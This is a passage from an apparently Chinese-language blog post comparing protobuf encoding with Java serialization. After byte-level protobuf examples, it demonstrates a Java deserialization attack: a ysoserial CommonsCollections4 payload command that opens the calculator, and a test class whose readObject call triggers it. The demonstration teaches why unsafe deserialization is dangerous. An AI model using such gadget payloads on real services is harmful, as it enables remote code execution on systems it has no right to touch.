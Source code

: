 
可以看下赋值不同,编码之后的二进制区别
```
# a: 1
# name: "aa"

bytes length : 6
bytes : 0801 1202 6161

-------

# a: 1
# name: "aa”
# email: "aaa"

bytes length : 11
bytes : 0801 1202 6161 1a03 6161 61

```

通过上述的一系列例子,总结下来就是,protobuf针对数字采用了varint编码,节省了字节;并且编码的时候采用key-value的形式.


##### 3.  安全

提到安全的话,可以参考github上的[ysoserial](https://github.com/frohoff/ysoserial),它提供了很多java反序列化的payload

直接通过一个例子来看一下  
例如,我选择利用apache的`commons-collections4`的代码漏洞,来让反序列化的时候执行恶意代码

下载一个ysoserial的jar包,然后生成一个payload文件,插入一段命令,例如说打开计算器
```
java -jar ysoserial-master.jar CommonsCollections4 'open -a Calculator' > payload
```

然后写一个test类,将这个payload文件反序列化一下

```java
//注 : 前提是项目里依赖到了`commons-collections4`
//例如,pom文件里指定了dependency
//<dependency>  
//    <groupId>org.apache.commons</groupId>  
//    <artifactId>commons-collections4</artifactId>  
//    <version>4.0</version>  
//</dependency>  
public class SerializeTest {
    public static void main(String[] args) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(new File("xxpath/payload")));
        objectInputStream.readObject();
    }
}
```
这段代码执行完之后,就会把mac上的计算器打开.这其实就是反序列化的漏洞导致的恶意代码执行

那为啥说protobuf就安全呢?
